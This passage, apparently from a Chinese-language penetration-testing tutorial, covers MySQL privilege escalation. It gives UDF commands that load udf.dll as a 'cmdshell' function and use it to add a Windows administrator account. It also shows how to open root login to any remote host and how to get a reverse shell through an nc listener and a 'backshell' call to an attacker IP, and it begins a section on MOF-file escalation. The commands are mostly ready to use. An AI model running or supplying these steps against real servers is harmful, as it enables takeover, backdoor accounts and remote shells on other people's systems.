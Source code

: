 ​	4、利用udf库文件加载函数执行命令

```
create function cmdshell returns string soname 'udf.dll'; //returns string soname ‘导出的DLL路径’；
select cmdshell('net user ndsec ndsecpw /add');
select cmdshell('net localgroup administrators ndsec /add');
drop function cmdshell;

select @@basedir;  				//查找到mysql的目录
```

##### 3.2.1 UDF反弹端口提权

（1）提权条件

- 支持外联 (除它本地地址之外的其他地址可以来连接mysql数据库)
- 支持udf提权

（2）利用流程

​	准备好mysql.txt文件
​	1、连接mysql数据库
​		客户端navicat软件连接
​		mysql.exe -u root -p root
​	**支持外联的解决方法**：
​	--更改mysql数据库里“user”表中host项。将localhost改成%

```
use mysql;
update user set host='%' where user='root';
flush privileges;
```

​	--直接授权

```
GRANT ALL PRIVILEGES ON *.* TO 'root'@'%' IDENTIFIED BY 'root' WITH GRANT OPTION;
FLUSH PRIVILEGES;
```

​	2、kali开启监听反弹的端口

​		`nc -lvvp 4444`

​	3、执行查询命令
​		执行mysql查询，将mysql.txt文件内容复制到查询中去执行
​		注意mysql.txt中的udf.dll文件的路径和监听的地址、端口
​		或者以自定义参数的方式：`mysql>select backshell("YourIP",4444);`

​	4、成功后，获取一个管理员权限的shell
​		添加用户或者直接获取管理员密码

#### 3.3 利用Mof提权

（1）mof文件？

​	是mysql数据库的扩展文件，（路径在`C:\WINDOWS\system32\wbem\mof\nullevt.mof`）.叫做托管对象格式
​	其作用每隔5秒就会去监控进程的创建和死亡
